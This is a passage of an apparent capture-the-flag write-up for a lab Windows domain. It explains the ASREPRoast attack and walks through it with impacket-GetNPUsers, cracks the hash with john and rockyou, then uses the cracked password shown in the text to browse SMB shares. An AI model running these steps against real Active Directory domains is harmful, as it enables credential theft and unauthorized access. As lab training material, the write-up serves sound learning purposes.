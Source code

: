 ```ruby
alex
Kaorz
cairo
byron
b.gronseth
bgronseth
saif

```

### ASREPRoast

> **The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute `DONT_REQ_PREAUTH`**

`That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.`

> **So we we don't need domain account to perform this attack, we just need a connection to the DC**

* let's go

> **impacket-GetNPUsers -dc-ip 10.10.10.240 -no-pass -usersfile ./user.txt LicorDeBellota/**

![](https://i.ibb.co/RhsSnyL/asreproast.png)

> **cool, we got the hash of `Kaorz` let's crack this hash with john**

> **john --wordlist=/usr/share/wordlists/rockyou.txt first-hash**

![](https://i.ibb.co/Wf3bQBg/fpass.png)

> **now let's try to list shares with username `Kaorz` and passworrd `Roper4155`**

> **smbclient -L \\10.10.10.240 -U kaorz**

![](https://i.ibb.co/NnctsXN/smb.png)

>**after enumerating these shares, i've found in the `NETLOGON` share some files**

> **smbclient //10.10.10.240/NETLOGON -U kaorz%Roper4155**

```ruby

smb: \> ls
  .                                   D        0  Sat Aug  8 06:42:28 2020
  ..                                  D        0  Sat Aug  8 06:42:28 2020
  HelpDesk                            D        0  Sun Aug  9 11:40:36 2020

		7779839 blocks of size 4096. 3439534 blocks available
smb: \> cd HelpDesk
smb: \HelpDesk\> ls
  .                                   D        0  Sun Aug  9 11:40:36 2020
  ..                                  D        0  Sun Aug  9 11:40:36 2020
  Restart-OracleService.exe           A  1854976  Fri Feb 19 05:52:01 2021
  Server MSSQL.msg                    A    24576  Sun Aug  9 07:04:14 2020
  WinRM Service.msg                   A    26112  Sun Aug  9 07:42:20 2020

```
